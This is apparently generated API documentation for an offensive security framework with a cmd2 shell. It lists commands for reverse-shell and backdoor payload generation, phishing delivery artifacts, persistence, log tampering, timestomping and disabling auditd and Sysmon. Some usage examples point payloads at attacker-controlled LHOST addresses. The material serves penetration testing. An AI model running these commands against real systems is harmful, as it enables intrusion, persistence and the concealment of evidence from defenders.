This function performs the following tasks:
1. Displays IP addresses for all network interfaces using `ip a show scope global` and `awk`.
2. Prints the IP address from the `tun0` interface.

Usage:
    ip

:param line: This parameter is not used in the function but is included for consistency with other command methods.
:type line: str
:returns: None

Manual execution:
1. The command `ip a show scope global | awk '/^[0-9]+:/ { sub(/:/,"",$2); iface=$2 } /^[[:space:]]*inet / { split($2, a, "/"); print "    [" iface"] "a[1] }'` is executed to display the IP addresses of all network interfaces.
2. The IP address of the `tun0` interface is printed to the console using the command `ip a show tun0 | grep 'inet ' | awk '{print $2}' | cut -d'/' -f1`.

Dependencies:
- The function relies on `awk`, `grep`, `cut`, and `xclip` to process and display the IP address.

Example:
    ip
    # This will display IP addresses for all network interfaces and print the IP address from `tun0`.

Note:
    Ensure that the `tun0` interface exists and has an IP address assigned. If `tun0` is not present or has no IP address, the address will not be displayed.*
- `do_rhost` (line 201) `def do_rhost(self, line)` - *Copies the remote host (self.params['rhost']) to the clipboard and updates the command prompt.

This function performs two tasks:
1. It copies the `self.params['rhost']` parameter to the clipboard if it is valid.
2. It updates the command prompt to include the `self.params['rhost']` and the current working directory.

Usage:
    self.params['rhost'] [clean]

:param line: An optional argument that determines the behavior of the function:
    - If 'clean', it resets the command prompt to its default format.
    - If any other value, it updates the command prompt to include the `self.params['rhost']` and current working directory.
:type line: str
:returns: None

Manual execution:
1. If `line` is 'clean':
- The command prompt is reset to its default format.
2. If `line` is any other value:
- The command prompt is updated to show the `self.params['rhost']` and the current working directory.
- The `self.params['rhost']` is copied to the clipboard using `xclip`.

Dependencies:
- The script uses `xclip` to copy the `self.params['rhost']` to the clipboard.

Example:
    self.params['rhost']
    # This will copy the current `self.params['rhost']` to the clipboard and update the prompt.

    self.params['rhost'] clean
    # This will reset the command prompt to its default format.

Note:
    Ensure that the `self.params['rhost']` is valid by checking it with the `check_rhost` function before copying it to the clipboard.*
- `do_rrhost` (line 254) `def do_rrhost(self, line)` - *Updates the command prompt to include the remote host (self.params['rhost']) and current working directory.

This function performs two tasks:
1. It updates the command prompt to include the `self.params['rhost']` and the current working directory if `line` is not 'clean'.
2. It resets the command prompt to its default format if `line` is 'clean'.

Usage:
    self.params['rhost'] [clean]

:param line: An optional argument that determines the behavior of the function:
    - If 'clean', it resets the command prompt to its default format.
    - If any other value, it updates the command prompt to include the `self.params['rhost']` and current working directory.
:type line: str
:returns: None

Manual execution:
1. If `line` is 'clean':
- The command prompt is reset to its default format.
2. If `line` is any other value:
- The command prompt is updated to show the `self.params['rhost']` and the current working directory.

Example:
    self.params['rhost']
    # This will update the command prompt to include the `self.params['rhost']` and current working directory.

    self.params['rhost'] clean
    # This will reset the command prompt to its default format.

Note:
    Ensure that the `self.params['rhost']` is valid by checking it with the `check_rhost` function before updating the prompt.*
- `do_addhosts` (line 295) `def do_addhosts(self, line)` - *Adds an entry to the `/etc/hosts` file, mapping an IP address to a domain name.

:param line: The domain name to be added to the `/etc/hosts` file.
    - Example: `permx.htb`

:returns: None

Manual execution:
To manually add a domain to the `/etc/hosts` file, use the following command:

    sudo sh -c -e "echo '<rhost> <domain>' >> /etc/hosts"

Example:
    sudo sh -c -e "echo '10.10.11.23 permx.htb' >> /etc/hosts"

This command appends the IP address and domain name to the `/etc/hosts` file, enabling local resolution of the domain.*
- `do_ip2asn` (line 319) `def do_ip2asn(self, line)` - *Command to get ASN for a given IP address.*
- `do_ignorearp` (line 348) `def do_ignorearp(self, line)` - *Configures the system to ignore ARP requests by setting a kernel parameter.

This function performs the following tasks:
1. Prints a message indicating the command that will be executed.
2. Executes the command `echo 1 > /proc/sys/net/ipv4/conf/all/arp_ignore` with elevated privileges using `sudo` to configure the system to ignore ARP requests.
3. Prints a confirmation message indicating that the operation is complete.

Usage:
    ignorearp

:param line: This parameter is not used in the function but is included for consistency with other command methods.
:type line: str
:returns: None

Manual execution:
    1. The command `sudo bash -c 'echo 1 > /proc/sys/net/ipv4/conf/all/arp_ignore'` is executed to assign the `arp_ignore` parameter to `1`, which configures the system to ignore ARP requests.

Dependencies:
    - The function requires `sudo` to run the command with elevated privileges.

Example:
    ignorearp
    # This will assign the `arp_ignore` parameter to `1` to ignore ARP requests.

Note:
    Ensure that you have the necessary permissions to use `sudo` and that the `arp_ignore` parameter can be modified on your system.*
- `do_ignoreicmp` (line 383) `def do_ignoreicmp(self, line)` - *Configures the system to ignore ICMP echo requests by setting a kernel parameter.

This function performs the following tasks:
1. Prints a message indicating the command that will be executed.
2. Executes the command `echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all` with elevated privileges using `sudo` to configure the system to ignore ICMP echo requests (ping).
3. Prints a confirmation message indicating that the operation is complete.

Usage:
    ignoreicmp

:param line: This parameter is not used in the function but is included for consistency with other command methods.
:type line: str
:returns: None

Manual execution:
    1. The command `sudo bash -c 'echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all'` is executed to assign the `icmp_echo_ignore_all` parameter to `1`, which configures the system to ignore ICMP echo requests (ping).

Dependencies:
    - The function requires `sudo` to run the command with elevated privileges.

Example:
    ignoreicmp
    # This will assign the `icmp_echo_ignore_all` parameter to `1` to ignore ICMP echo requests.

Note:
    Ensure that you have the necessary permissions to use `sudo` and that the `icmp_echo_ignore_all` parameter can be modified on your system.*
- `do_acknowledgearp` (line 418) `def do_acknowledgearp(self, line)` - *Configures the system to acknowledge ARP requests by setting a kernel parameter.

This function performs the following tasks:
1. Prints a message indicating the command that will be executed.
2. Executes the command `echo 0 > /proc/sys/net/ipv4/conf/all/arp_ignore` with elevated privileges using `sudo` to configure the system to acknowledge ARP requests.
3. Prints a confirmation message indicating that the operation is complete.

Usage:
    acknowledgearp

:param line: This parameter is not used in the function but is included for consistency with other command methods.
:type line: str
:returns: None

Manual execution:
    1. The command `sudo bash -c 'echo 0 > /proc/sys/net/ipv4/conf/all/arp_ignore'` is executed to assign the `arp_ignore` parameter to `0`, which configures the system to acknowledge ARP requests.

Dependencies:
    - The function requires `sudo` to run the command with elevated privileges.

Example:
    acknowledgearp
    # This will assign the `arp_ignore` parameter to `0` to acknowledge ARP requests.

Note:
    Ensure that you have the necessary permissions to use `sudo` and that the `arp_ignore` parameter can be modified on your system.*
- `do_acknowledgeicmp` (line 453) `def do_acknowledgeicmp(self, line)` - *Configures the system to respond to ICMP echo requests by setting a kernel parameter.

This function performs the following tasks:
1. Prints a message indicating the command that will be executed.
2. Executes the command `echo 0 > /proc/sys/net/ipv4/icmp_echo_ignore_all` with elevated privileges using `sudo` to configure the system to respond to ICMP echo requests.
3. Prints a confirmation message indicating that the operation is complete.

Usage:
    acknowledgeicmp

:param line: This parameter is not used in the function but is included for consistency with other command methods.
:type line: str
:returns: None

Manual execution:
    1. The command `sudo bash -c 'echo 0 > /proc/sys/net/ipv4/icmp_echo_ignore_all'` is executed to assign the `icmp_echo_ignore_all` parameter to `0`, which configures the system to respond to ICMP echo requests.

Dependencies:
    - The function requires `sudo` to run the command with elevated privileges.

Example:
    acknowledgeicmp
    # This will assign the `icmp_echo_ignore_all` parameter to `0` to allow responses to ICMP echo requests.

Note:
    Ensure that you have the necessary permissions to use `sudo` and that the `icmp_echo_ignore_all` parameter can be modified on your system.*

#### `opsec_cleanup.py`
**Path:** `cli/commands/opsec_cleanup.py`
**File Doc:** *OPSEC and cleanup commands — scoring, log tamper, forensic cleaner, timestomp, memory, network.  Provides: opsec_score             — Real-time OPSEC risk assessment with action gating (v2) log_tamper              — Cross-platform log clearing (Windows/Linux/macOS) forensic_clean          — Remove forensic artifacts (Prefetch, Shimcache, Amcache, etc.) timestomp               — Manipulate file MACB timestamps memory_clean            — Clear memory artifacts (tickets, clipboard, env, credentials) network_opsec           — Proxy chains, DoH, canary detection, traffic analysis auditd_disable          — Disable Linux auditd sysmon_disable          — Disable Windows Sysmon*

**Classes:**
- `OpsecCleanupCommandSet` (line 19) `class OpsecCleanupCommandSet(LazyOwnCommandSet)` - *OPSEC scoring, log tampering, forensic cleaning, timestomping, memory/network OPSEC.*

**Methods:**
- `do_opsec_score` (line 25) `def do_opsec_score(self, line)` - *Real-time OPSEC risk assessment with contextual action gating (v2).

Usage: opsec_score <command> [--phase <phase>] [--env <environment>] [--edr] [--siem] [--priv]

Performs context-aware OPSEC scoring considering:
    - Kill-chain phase
    - Target environment type (enterprise, smb, government, cloud, critical_infrastructure)
    - EDR/SIEM presence
    - Privilege level
    - Evasion status
    - Artifact count and session duration

Returns risk level, noise score, detection surface, gate action (ALLOW/WARN/CONFIRM/BLOCK),
and ranked mitigations.

Examples:
    opsec_score mimikatz --phase credential_access --env enterprise --edr --siem
    opsec_score secretsdump --phase credential_access --env government
    opsec_score nmap --phase scanning
    opsec_score psexec --env enterprise --edr*
- `do_log_tamper` (line 97) `def do_log_tamper(self, line)` - *Cross-platform log clearing commands.

Usage: log_tamper <platform> [--no-eventlog-suspend] [--no-verify]

Platforms: windows, linux, macos, all

Windows: 13 Event Logs + EventLog service suspend + Sysmon
Linux: journald, auth.log, wtmp/btmp, shell history, auditd
macOS: unified log, system.log, TCC.db, diagnostic reports

Examples:
    log_tamper windows
    log_tamper linux
    log_tamper all*
- `do_forensic_clean` (line 162) `def do_forensic_clean(self, line)` - *Clean forensic artifacts — Prefetch, Shimcache, Amcache, Jump Lists, etc.

Usage: forensic_clean <platform> [--no-prefetch] [--no-amcache] [--mft]

Platforms: windows, linux, macos, all

Windows cleans: Prefetch, Shimcache, Amcache, Jump Lists, Recent files,
                Shellbags, LNK files, MRU registry, thumbnail cache, USN journal, MFT.

Examples:
    forensic_clean windows
    forensic_clean windows --mft
    forensic_clean all*
- `do_timestomp` (line 219) `def do_timestomp(self, line)` - *Manipulate file MACB timestamps to evade forensic timeline analysis.

Usage: timestomp <target_path> [--ref <reference_file>] [--platform <windows|linux|macos>] [--randomize]

Clones timestamps from a legitimate system file onto target files.
Supports batch directory timestomping and randomized timestamp windows.

Examples:
    timestomp /tmp/beacon.exe --platform windows
    timestomp /tmp/staged/ --ref /etc/passwd --platform linux
    timestomp ~/Library/LaunchAgents/backdoor.plist --platform macos --randomize*
- `do_memory_clean` (line 288) `def do_memory_clean(self, line)` - *Clean memory artifacts — Kerberos tickets, clipboard, env vars, credentials.

Usage: memory_clean <platform> [--no-tickets] [--no-clipboard]

Platforms: windows, linux, macos, all

Windows: Kerberos purge, NTLM cache, clipboard, env vars, PSReadline, DPAPI
Linux: env vars, GNOME keyring, ssh-agent, clipboard (xclip), kdestroy
macOS: Keychain, pasteboard, ssh-agent, kdestroy, env scrub

Examples:
    memory_clean windows
    memory_clean all*
- `do_network_opsec` (line 342) `def do_network_opsec(self, line)` - *Network OPSEC — proxy chains, DoH, canary detection, traffic analysis.

Usage: network_opsec <method> [options]

Methods:
    proxy_chain  — Configure proxy chain (socks5, http, ssh tunnels)
    doh          — DNS-over-HTTPS configuration
    port_rand    — Source port randomization
    jitter       — Connection jitter schedule generation
    canary_check — Detect canary tokens and honeypots
    traffic      — Analyze TLS inspection and proxy detection

Examples:
    network_opsec proxy_chain --type socks5_over_ssh
    network_opsec doh
    network_opsec canary_check --domains target.local,admin.target.local
    network_opsec traffic --host target.com --port 443*
- `do_auditd_disable` (line 445) `def do_auditd_disable(self, line)` - *Generate commands to disable Linux auditd.

Usage: auditd_disable [--restore]*
- `do_sysmon_disable` (line 468) `def do_sysmon_disable(self, line)` - *Generate commands to disable Windows Sysmon.

Usage: sysmon_disable [--restore]*

#### `orchestration.py`
**Path:** `cli/commands/orchestration.py`
**File Doc:** *Orchestration CommandSet: operator-facing surface for the new modules.  This module exposes two verbs to the cmd2 shell:  * ``status_bar`` — inspect, toggle and refresh the persistent prompt status bar provided by :mod:`cli.status_bar`. * ``orchestrate`` — drive :class:`skills.unified_orchestrator.UnifiedOrchestrator` with a single goal string, routing transparently to the daemon, hive or SWAN backend.  The set is active (subclass of :class:`cli.commands._base.LazyOwnCommandSet`) because both verbs are new — there is no legacy ``do_*`` in ``lazyown.py`` that they collide with. Activation therefore happens via :func:`cli.registry.register_command_sets` on shell startup.*

**Classes:**
- `OrchestrationConfig` (line 37) `class OrchestrationConfig` - *Immutable defaults for the orchestration verbs.*
- `OrchestrationCommandSet` (line 182) `class OrchestrationCommandSet(LazyOwnCommandSet)` - *Operator commands exposing the status bar and unified orchestrator.*

**Functions:**
- `_spinner_hints` (line 60) `def _spinner_hints(stop, events_path)` - *Render a live spinner with the newest reasoning line until stopped.

Runs on a worker thread while the orchestrator blocks. Each poll
reads the tail of the autonomous events log so the operator watches
what the run is doing instead of silence. Any failure degrades to
a static waiting line, never to an exception.*
- `run_with_spinner` (line 94) `def run_with_spinner(execute)` - *Run a blocking orchestrator call with a live reasoning spinner.

Starts the spinner thread only on interactive terminals; anywhere
else the call runs unwrapped so piped JSON output stays clean.*
- `_build_status_bar_parser` (line 115) `def _build_status_bar_parser()` - *Return the argparse parser used by ``status_bar``.*
- `_build_orchestrate_parser` (line 128) `def _build_orchestrate_parser()` - *Return the argparse parser used by ``orchestrate``.*

**Methods:**
- `do_status_bar` (line 190) `def do_status_bar(self, args)` - *Inspect, toggle and refresh the prompt status bar.

Subcommands:
    show     Print the currently rendered status line.
    on / off Persist the flag into payload via the shell.
    refresh  Recompute the status bar context against ``sessions/``.*
- `do_orchestrate` (line 216) `def do_orchestrate(self, args)` - *Route a goal through the unified orchestrator and print the result.

The orchestrator picks one of ``daemon``, ``hive`` or ``swan`` and
normalises the response into a single dataclass. Use ``--mode`` to
force a specific backend; the default ``auto`` routes by
signature heuristics.*
- `_resolve_shell` (line 263) `def _resolve_shell(self)` - *Return the bound cmd2 shell or ``None`` if not yet registered.

cmd2 stores the shell in the name-mangled
``_CommandSet__cmd_internal`` slot and exposes it through the
``_cmd`` property. Reading ``self._cmd`` triggers the property
and is the only stable way to retrieve the shell — going through
``self.__dict__`` returns ``None`` because there is no instance
attribute by that name.*
- `_status_manager` (line 278) `def _status_manager(self)`
- `_orchestrator` (line 284) `def _orchestrator(self)`
- `_status_bar_show` (line 290) `def _status_bar_show(self, manager)`
- `_status_bar_refresh` (line 295) `def _status_bar_refresh(self, manager)`
- `_status_bar_toggle` (line 305) `def _status_bar_toggle(self, manager, enabled)`
- `_format_text` (line 314) `def _format_text(result)`

#### `payload_arsenal.py`
**Path:** `cli/commands/payload_arsenal.py`
**File Doc:** *Payload arsenal commands — dotnet, reflective DLL, staged delivery, polymorphic, macOS/Linux payloads.  Provides: dotnet_payload          — Generate .NET/C# payloads (reverse shell, beacon, injection, bypass) show dotnet_templates   — List available .NET/C# template names reflective_dll          — Analyze a PE/DLL for reflective loading staged_delivery         — Generate HTA, VBA, XLM, LNK, ISO, VHD delivery artifacts show staged_formats     — List available staged delivery formats polymorphic             — Apply polymorphic mutation to shellcode macos_payload           — Generate macOS .app bundles, persistence, TCC bypass show macos_payloads     — List available macOS payload types linux_advanced_payload  — Generate LD_PRELOAD rootkits, eBPF, PAM backdoors, kernel modules show linux_payloads     — List available Linux advanced payload types*

**Classes:**
- `PayloadArsenalCommandSet` (line 23) `class PayloadArsenalCommandSet(LazyOwnCommandSet)` - *Dotnet, reflective DLL, staged delivery, polymorphic, macOS/Linux advanced payloads.*

**Methods:**
- `do_dotnet_payload` (line 29) `def do_dotnet_payload(self, line)` - *Generate a .NET/C# payload.

Usage: dotnet_payload <template> [LHOST=<ip>] [LPORT=<port>] [--format f] [--target exe|dll] [--platform x86|x64|AnyCPU]

Templates: reverse_tcp, http_beacon, process_injection, amsi_bypass, etw_bypass, token_impersonation

Examples:
    dotnet_payload reverse_tcp LHOST=10.0.0.1 LPORT=4444
    dotnet_payload http_beacon LHOST=10.0.0.1 LPORT=443 --format ps1
    dotnet_payload process_injection shellcode_b64=BASE64 --target exe --platform x64*
- `do_arsenal_show` (line 114) `def do_arsenal_show(self, line)` - *Show payload arsenal items.

Usage: arsenal_show <category>

Categories: dotnet_templates, staged_formats, macos_payloads, linux_payloads*
- `do_staged_delivery` (line 172) `def do_staged_delivery(self, line)` - *Generate staged delivery artifacts (HTA, VBA, LNK, ISO, VHD).

Usage: staged_delivery <format> [LHOST=<ip>] [LPORT=<port>] [--app-name "Name"]

Formats: hta, vba, xlm, lnk, iso, vhd, all
Phishing: office365, gmail, outlook

Examples:
    staged_delivery hta LHOST=10.0.0.1 LPORT=443 --app-name "QuarterlyReport"
    staged_delivery all LHOST=10.0.0.1 LPORT=8443
    staged_delivery office365 LHOST=10.0.0.1 LPORT=443*
- `do_polymorphic` (line 261) `def do_polymorphic(self, line)` - *Apply polymorphic mutation to shellcode.

Usage: polymorphic <shellcode_hex> [--passes N] [--arch x64|x86] [--nop] [--xor] [--compress] [--base64]

Examples:
    polymorphic fc4883e4f0e8c0000000415141505251564831 --passes 3
    polymorphic $(cat shellcode.hex) --passes 5 --xor --compress --base64*
- `do_macos_payload` (line 328) `def do_macos_payload(self, line)` - *Generate macOS payloads (.app bundles, persistence, TCC bypass).

Usage: macos_payload <type> [LHOST=<ip>] [LPORT=<port>] [--app-name "Name"]

Types: app_bundle, launchd, tcc_bypass, osascript, swift, all

Examples:
    macos_payload app_bundle LHOST=10.0.0.1 LPORT=4444 --app-name "SystemPreferences"
    macos_payload launchd LHOST=10.0.0.1 LPORT=8443
    macos_payload all LHOST=10.0.0.1 LPORT=4444*
- `do_linux_advanced_payload` (line 401) `def do_linux_advanced_payload(self, line)` - *Generate advanced Linux payloads (LD_PRELOAD, eBPF, PAM, kernel module).

Usage: linux_advanced_payload <type> [LHOST=<ip>] [LPORT=<port>]

Types: ld_preload, ebpf, pam_backdoor, systemd, ssh, kernel_module, motd, udev, all

Examples:
    linux_advanced_payload ld_preload LHOST=10.0.0.1 LPORT=4444 --hook accept
    linux_advanced_payload pam_backdoor LHOST=10.0.0.1 LPORT=8443
    linux_advanced_payload all LHOST=10.0.0.1 LPORT=4444*

#### `payload_generation.py`
**Path:** `cli/commands/payload_generation.py`
**File Doc:** *Payload generation commands — list payloads and generate.  Provides: show payloads           — list all registered payloads generate <name> [options] [--format f] [--output path]*

**Classes:**
- `PayloadCommandSet` (line 24) `class PayloadCommandSet(LazyOwnCommandSet)` - *Payload generation and listing.*

**Methods:**
- `_get_factory` (line 30) `def _get_factory(self)`
- `do_generate` (line 37) `def do_generate(self, line)` - *Generate a payload.

Usage: generate <payload_name> LHOST=<ip> LPORT=<port> [--format f] [--output path]

Examples:
    generate cmd/unix/reverse_shell LHOST=10.0.0.1 LPORT=4444
    generate cmd/unix/reverse_shell LHOST=10.0.0.1 LPORT=4444 shell_type=python
    generate cmd/windows/reverse_powershell LHOST=10.0.0.1 LPORT=4444 --format ps1 --output /tmp/shell.ps1

Use 'show payloads' to list available payloads.*

#### `persist.py`
**Path:** `cli/commands/persist.py`
**File Doc:** *Persistence command set (pending).  Phase 05 — commands for establishing persistence: reverse shells, web shells, backdoors, and implant generation.  Pending status: inherits from :class:`PendingCommandSet`. Promote to :class:`LazyOwnCommandSet` once originals are deleted from ``lazyown.py``.*

**Classes:**
- `PersistenceCommandSet` (line 26) `class PersistenceCommandSet(LazyOwnCommandSet)` - *Persistence phase commands (pending).*

**Methods:**
- `do_createwebshell` (line 33) `def do_createwebshell(self, line)` - *Create web shells (JPG-disguised PHP, p0wny-shell, ASP).*
- `do_createrevshell` (line 47) `def do_createrevshell(self, line)` - *Create a bash reverse shell script in sessions/.*
- `do_createwinrevshell` (line 61) `def do_createwinrevshell(self, line)` - *Create a Windows reverse shell (PowerShell).*
- `do_conptyshell` (line 73) `def do_conptyshell(self, line)` - *Download ConPtyShell and prepare a PowerShell run command.*
- `do_pwncatcs` (line 89) `def do_pwncatcs(self, line)` - *Start a pwncat-cs reverse shell listener.*
- `do_revwin` (line 99) `def do_revwin(self, line)` - *Create a Windows reverse shell executable.*
- `do_wmi_persist` (line 112) `def do_wmi_persist(self, line)` - *Create WMI Event Subscription persistence (fileless, no disk write).

Usage: wmi_persist [--command <cmd>] [--interval <minutes>] [--name <event_name>]

Registers __EventFilter + __EventConsumer + __FilterToConsumerBinding
for stealthy, fileless persistence. Triggers on system startup or
at a configurable interval. MITRE: T1546.003 WMI Event Subscription.*
- `do_wmi_lateral` (line 170) `def do_wmi_lateral(self, line)` - *Execute a command on a remote host via WMI.

Usage: wmi_lateral [--target <ip>] [--user <user>] [--password <pass>] [--hash <nt_hash>] [--command <cmd>]

Uses wmic.exe or impacket-wmiexec for lateral movement.
Supports pass-the-hash authentication.
MITRE: T1047 WMI.*
- `do_wmi_scheduled_task` (line 209) `def do_wmi_scheduled_task(self, line)` - *Create a scheduled task for persistence via WMI.

Usage: wmi_scheduled_task [--name <task_name>] [--command <cmd>] [--trigger <startup|logon|daily|hourly>]

Creates a scheduled task that executes on system startup or user logon.
More stealthy than registry Run keys (not monitored by many EDRs).
MITRE: T1053.005 Scheduled Task.*
- `_extract` (line 275) `def _extract(args, flag)`

#### `persist_migrated.py`
**Path:** `cli/commands/persist_migrated.py`
**File Doc:** *persist commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.*

**Classes:**
- `PersistMigratedCommandSet` (line 28) `class PersistMigratedCommandSet(LazyOwnCommandSet)`

**Methods:**
- `do_pwncat` (line 33) `def do_pwncat(self, line)` - *Runs `pwncat` with the specified port for listening. SELFINJECT

This function starts a `pwncat` listener on the specified local port. It can use a port defined in the `lport` parameter or a port provided as an argument.

Usage:
    pwncatcs <port>

:param line: The port number to use for the `pwncat-cs` listener. If not provided, it defaults to the `lport` parameter.
:type line: str
:returns: None

Manual execution:
1. Ensure that `pwncat-cs` is installed and accessible from your command line.
2. The port number can either be provided as an argument or be assign in the `lport` parameter of the function.
3. Run the function to start `pwncat-cs` on the specified port.

If no port is provided as an argument, the function will use the port specified in the `lport` parameter. If a port is provided, it overrides the `lport` value.

After starting the listener, the function prints a message indicating that `pwncat-cs` is running on the specified port and another message when the session is closed.

Dependencies:
- `pwncat-cs`: A tool used for creating reverse shells or bind shells.*
- `do_ftp` (line 77) `def do_ftp(self, line)` - *Connects to an ftp host using credentials from a file and a specified port.

This function performs the following actions:
1. Retrieves the remote host (`self.params['rhost']`) from the parameters.
2. Checks if the `self.params['rhost']` is valid using the `check_rhost` function.
3. Sets the ftp port to the value provided in the `line` parameter.
4. Checks if the `credentials.txt` file exists in the `./sessions` directory.
5. Reads credentials (username and password) from the `credentials.txt` file, where each line is formatted as `user:password`.
6. Constructs and executes an ftp command using `sshpass` to handle password authentication and `ftp` to initiate the connection.
7. Displays the ftp command being executed.

Usage:
    ftp <port>

:param line: The port number to use for the ftp connection.
:type line: str
:returns: None

Manual execution:
To manually use this function:
1. Ensure `sessions/credentials.txt` exists and contains valid ftp credentials in the format `user:password`.
2. Run the function with the port number as an argument.
3. The function will attempt to connect to the ftp host using each assign of credentials and the specified port.

Note: Ensure `sshpass` is installed on your system for password-based SSH authentication. If `sshpass` is not available, you may need to install it or use an alternative method for SSH authentication.*
- `do_rdp` (line 136) `def do_rdp(self, line)` - *Reads credentials from a file, encrypts the password, and executes the RDP connection command.

1. Reads credentials:
    - Reads the username and password from the `sessions/credentials.txt` file.

2. Encrypts the password:
    - Uses `remmina --encrypt-password` to encrypt the password obtained from the file.

3. Executes the RDP connection command:
    - Uses the encrypted password to construct and execute the `remmina -c` command to initiate the RDP connection.

:param line: This function does not use any arguments.
:type line: str
:returns: None

Manual execution:
To manually execute the command:
- Ensure `sessions/credentials.txt` contains the credentials in the format `username:password`.
- Run the `rdp` command to read the credentials, encrypt the password, and connect to the RDP server.
Example usage: `rdp`*
- `do_grisun0` (line 210) `def do_grisun0(self, line)` - *Creates and copies a shell command to add a new user, assign a password, add the user to the sudo group, and switch to the user.
Uses backdoor_username, backdoor_password, and backdoor_linux_home from payload.json.

1. Displays the command:
    - Prints the command to add the user with the configured home directory, assign the password, add the user to the `sudo` group, assign the appropriate permissions, and switch to the user.

2. Copies the command to clipboard:
    - Uses `xclip` to copy the command to the clipboard for easy pasting.

:param line: This function does not use any arguments.
:type line: str
:returns: None

Manual execution:
To manually execute the command:
- Copy the command from the clipboard.
- Run it in a terminal to create the user and assign up the permissions as specified.
Note: Ensure `xclip` is installed and available on your system.*
- `do_grisun0w` (line 256) `def do_grisun0w(self, line)` - *Creates and copies a PowerShell command to add a new user, assign a password, add the user to the Administrators group, and switch to the user.
Uses backdoor_username and backdoor_password from payload.json.

1. Displays the command:
    - Prints the PowerShell command to add the user, assign the password, add the user to the `Administrators` group, and switch to the user.

2. Copies the command to clipboard:
    - Uses `clip` to copy the command to the clipboard for easy pasting.

:param line: This function does not use any arguments.
:type line: str
:returns: None

Manual execution:
To manually execute the command:
- Copy the command from the clipboard.
- Run it in a PowerShell terminal to create the user and assign the permissions as specified.*
- `do_asprevbase64` (line 300) `def do_asprevbase64(self, line)` - *Creates a base64 encoded ASP reverse shell payload and copies it to the clipboard.

1. Checks if a base64 encoded payload is provided:
    - If no payload is provided, displays an error message and exits the function.

2. If a payload is provided:
    - Creates an ASP script that uses `WScript.Shell` to execute a PowerShell command encoded in base64.
    - The created ASP script writes the result of the PowerShell command to the response output.
    - Uses `xclip` to copy the ASP script to the clipboard with the provided base64 encoded payload.

:param line: The base64 encoded payload to be used in the ASP reverse shell.
:type line: str
:returns: None

Manual execution:
To manually create the ASP payload:
- Ensure you have the base64 encoded payload ready.
- Use `xclip` to copy the provided command to the clipboard.

Note: Ensure `xclip` is installed and available on your system. For help on creating the base64 encoded payload, see `help winbase64payload`.*
- `do_weevelygen` (line 338) `def do_weevelygen(self, line)` - *Generate a PHP backdoor using Weevely, protected with the given password.

This function generates a PHP backdoor file using the specified password. It ensures that Weevely is installed on the system before attempting to generate the backdoor. If Weevely is not present, it will be installed automatically.

Usage:
┌─[LazyOwn 127.0.0.1 ~/LazyOwn][10.10.10.10][http://victim.local/]
└╼ $ weevelygen s3cr3t

Parameters:
line (str): The password to protect the generated PHP backdoor.

Returns:
None

Raises:
print_error: If the password argument is not provided.
print_warn: If Weevely is not installed and needs to be installed.

Example:
To generate a PHP backdoor protected with the password 's3cr3t', use the following command:
$ weevelygen s3cr3t*
- `do_weevely` (line 378) `def do_weevely(self, line)` - *Connect to PHP backdoor using Weevely, protected with the given password.

This function Connect to PHP backdoor file using the specified password. It ensures that Weevely is installed on the system before attempting to generate the backdoor. If Weevely is not present, it will be installed automatically.

Usage:
┌─[LazyOwn 127.0.0.1 ~/LazyOwn][10.10.10.10][http://victim.local/]
└╼ $ weevely http://victim.local/weevely.php s3cr3t

Parameters:
line (str): the url to Weevely shell and the password to protect the generated PHP backdoor.

Returns:
None

Raises:
print_error: If the password argument is not provided.
print_warn: If Weevely is not installed and needs to be installed.

Example:
To generate a PHP backdoor protected with the password 's3cr3t', use the following command:
$ weevelygen s3cr3t*
- `do_backdoor_factory` (line 424) `def do_backdoor_factory(self, line)` - *Creates a backdoored executable using `backdoor-factory`.

This function checks if `backdoor-factory` is installed, installs it if necessary, and then uses it to
inject a reverse shell payload into a specified binary file. The binary is backdoored with a
reverse shell payload that connects back to a specified host and port.

:param line: The absolute path to the file that will be backdoored. If not provided, the user is prompted
            to enter the path.

:returns: None

Manual execution:
To manually create a backdoored executable, use the following command:
    backdoor-factory -f <file_path> -H <self.params['lhost']> -P <lport> -s reverse_shell_tcp_inline -J -a -c -l 128 -o <output_file>

Replace `<file_path>` with the path to the binary you want to backdoor, `<self.params['lhost']>` with the IP address of
the attacker’s machine, and `<lport>` with the port number to listen on. The `<output_file>` is the path
where the backdoored binary will be saved.

For example:
    backdoor-factory -f /usr/share/windows-binaries/plink.exe -H 192.168.1.202 -P 4444 -s reverse_shell_tcp_inline -J -a -c -l 128 -o sessions/backdoor_factory.exe*
- `do_msfpc` (line 470) `def do_msfpc(self, line)` - *Generates payloads using MSFvenom Payload Creator (MSFPC).

This function checks if `msfpc` is installed and installs it if necessary. It then runs `msfpc`
with the specified parameters to create a payload for penetration testing.

:param line: Not used in this implementation but reserved for future use.

:returns: None

Manual execution:
To manually generate a payload using MSFPC, use the following command:
    msfpc <TYPE> <DOMAIN/IP> <PORT> <CMD/MSF> <BIND/REVERSE> <STAGED/STAGELESS> <TCP/HTTP/HTTPS/FIND_PORT> <BATCH/LOOP> <VERBOSE>

Replace the placeholders with the desired values. For example:
    msfpc windows 192.168.1.10 4444 reverse stageless tcp verbose

Example usage:
    msfpc windows 192.168.1.10        # Windows & manual IP.
    msfpc elf bind eth0 4444          # Linux, eth0's IP & manual port.
    msfpc stageless cmd py https      # Python, stageless command prompt.
    msfpc verbose loop eth1           # A payload for every type, using eth1's IP.
    msfpc msf batch wan               # All possible Meterpreter payloads, using WAN IP.*
- `do_ivy` (line 551) `def do_ivy(self, line)` - *Generates payloads using Ivy with various options. Ivy is a payload creation framework for the execution of arbitrary VBA (macro) source code directly in memory. Ivy’s loader does this by utilizing programmatical access in the VBA object environment to load, decrypt and execute shellcode.

This function checks if `Ivy` is installed and installs it if necessary. It then runs `Ivy`
with the specified parameters to create various payloads.

:param line: Not used in this implementation but reserved for future use.

:returns: None

Manual execution:
To manually generate a payload using Ivy, use the following command:
    ./Ivy <OPTIONS>

Replace the placeholders with the desired values. For example:
    ./Ivy -Ix64 test64.vba -Ix86 test32.vba -P Inject -O SampleInject.js
    ./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -process64 C:\windows\system32\notepad.exe -process32 C:\windows\SysWOW64\notepad.exe -O stageless.js

Example usage:
    ivy staged_inject -Ix64 test64.vba -Ix86 test32.vba -P Inject -O SampleInject.js
    ivy stageless_local -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O stageless.js
    ivy one_liner -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -O test.png -stageless*
